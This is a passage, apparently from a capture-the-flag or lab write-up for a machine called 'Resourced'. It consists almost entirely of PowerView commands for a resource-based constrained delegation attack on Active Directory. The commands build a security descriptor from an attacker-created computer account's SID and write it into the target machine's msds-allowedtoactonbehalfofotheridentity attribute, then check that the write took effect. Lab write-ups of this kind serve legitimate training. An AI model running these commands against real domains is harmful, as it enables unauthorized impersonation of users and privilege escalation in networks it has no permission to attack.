 `Import-Module .\PowerView.ps1`

`Get-DomainComputer SERVICEA #Check if created if you have powerview`

![c6c891b31d06ed6bfb8131ca17d96e46.png](/assets/img/screenshots/Resourced/c6c891b31d06ed6bfb8131ca17d96e46.png)

`$ComputerSid = Get-DomainComputer SERVICEA -Properties objectsid | Select -Expand objectsid`

`$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"`

`$SDBytes = New-Object byte[] ($SD.BinaryLength)`

`$SD.GetBinaryForm($SDBytes, 0)`

`hostname #to check the machine name`

`Get-DomainComputer MACHINENAME | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}`

Check if worked

`Get-DomainComputer MACHINENAME -Properties 'msds-allowedtoactonbehalfofotheridentity'`

![a668bc720963259eadb98d20a7cccf7d.png](/assets/img/screenshots/Resourced/a668bc720963259eadb98d20a7cccf7d.png)
